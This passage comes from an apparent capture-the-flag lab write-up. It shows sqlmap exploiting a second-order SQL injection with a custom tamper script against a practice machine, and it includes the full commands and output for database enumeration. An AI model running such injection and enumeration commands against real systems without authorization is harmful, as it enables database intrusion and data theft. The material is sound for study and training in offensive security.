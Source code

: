 
It’s interesting that it calls this 21 requests, when we saw somewhere between
75 and 79, depending on if you count the four at start.

Then it continues to test the database version. It does this with another 3
sets of three queries, and confirms it’s `mysql`:

    
    
    [05:23:48] [INFO] testing MySQL
    [05:23:50] [INFO] confirming MySQL
    [05:23:54] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL >= 5.0.0
    [05:23:54] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.66'
    
    [*] shutting down at 05:23:54
    

### Database Enumeration

With a working injection, we can now do further enumeration.

Adding `--dbs` will show the database names:

    
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0
    .1:8080 --dbs
    ...
    [05:38:02] [INFO] fetching database names
    [05:38:03] [INFO] used SQL query returns 3 entries
    [05:38:05] [INFO] retrieved: information_schema
    [05:38:06] [INFO] retrieved: notes
    [05:38:07] [INFO] retrieved: sysadmin
    available databases [3]:
    [*] information_schema
    [*] notes
    [*] sysadmin
    

Adding `--tables` will show the tables. This query fails initially, but with a
suggestion:

    
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0
    .1:8080 --dbs --tables
    ...
    [06:35:26] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
    [06:35:26] [ERROR] unable to retrieve the table names for any database
    

Adding `--no-cast` will enable table enumeration:

    